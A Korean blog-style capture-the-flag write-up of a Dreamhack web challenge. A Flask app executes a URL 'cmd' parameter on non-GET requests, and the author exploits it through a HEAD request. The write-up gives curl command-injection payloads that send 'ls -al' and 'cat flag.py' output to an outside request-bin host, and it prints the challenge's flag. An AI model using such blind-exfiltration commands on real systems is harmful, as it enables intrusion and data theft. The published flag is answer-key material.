




문제는 **Read the flag file XD** 입니다.  

뭔가 flag 파일을 찾는 문제인 것 같다.  

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드를 보면 다음과 같은 기능을 한다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

   

처음에 들어가면, cmd를 입력하라는 문구가 나온다. 

그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있다.  

   

burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤다.  

예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있다.  

   

그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했다.  

그런데 **POST 메소드는 지원하지 않는다**고 나왔다.  

그럼 어떤 메소드를 이용해야할까?

## Repeater로 request 보내기

그 전에, Proxy를 이용해 request를 보내면 response를 받을 수 없다.  

그래서 request를 **Repeater** 로 보내야 한다.  

 

여기서 Repeater로 들어가면, 다음과 같이 나온다.  

  

여기까지 오면 그래서 **어떤 메소드를 사용**해야 하는 지 의문일 것이다.  

이럴 때 **어떤 메소드를 허가**하는지 알 수 있는 메소드가 있다.  

   

바로 `OPTION` 이다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았다.  

   

`HEAD(GET과 동일, 그러나 response body가 없음)`로 request 하면 POST 때처럼 오류가 발생하지 않는다.  

그러나 우리가 원하는 cmd의 결과를 받을 수 없다.  

여기서 어떻게 해야할 지 모르겠어서 찾아봤다.  

결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이다.  

여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있다.  

  

참고로 나에게 주어진 서버는 `https://ntjbkyc.request.dreamhack.games` 이다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태이다.  

그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까?  
바로 **curl** 이다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  

  

즉, cmd에 `curl -X POST -d "$(ls -al)" https://ntjbkyc.request.dreamhack.games` 같이 명령어를 적는다.(공백은 `%20` 으로, 따옴표는 `%22`로 바꿔서 적기)  

`https://ntjbkyc.request.dreamhack.games` 에 **POST 방식**으로 문제 사이트에서 **ls -al 를 실행한 결과**를 **전송**하는 명령이다.  

  

**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했으므로, `cat flag.py` 를 하면 끝이다.  

  

이전처럼 `curl -X POST -d "$(cat flag.py)" https://ntjbkyc.request.dreamhack.games` 이렇게 cmd에 값을 넣는데, **cat flag.py** 로 flag를 출력한다.  

  

따라서 정답은 **DH{4c9905b5abb9c3eb10af4ab7e1645c23}** 이다.  

# curl 내용 추가

(https://studyforall.tistory.com/22)

`curl+(복사한 Dreamhack Tools 링크)+-d+"$(명령)"`
으로도 가능하다.  

1. `+` : 띄어쓰기
2. `-d` : curl 명령어의 옵션. 데이터를 POST 요청으로 전송
3. `$(셸 명령)` : 쉘 명령을 실행하는 명령(Command Injection에서 배움)

즉, `curl https://ntjbkyc.request.dreamhack.games -d "$(cat flag.py)"` 도 가능하다.  
-> `curl+https://ntjbkyc.request.dreamhack.games+-d+"$(cat+flag.py)"`


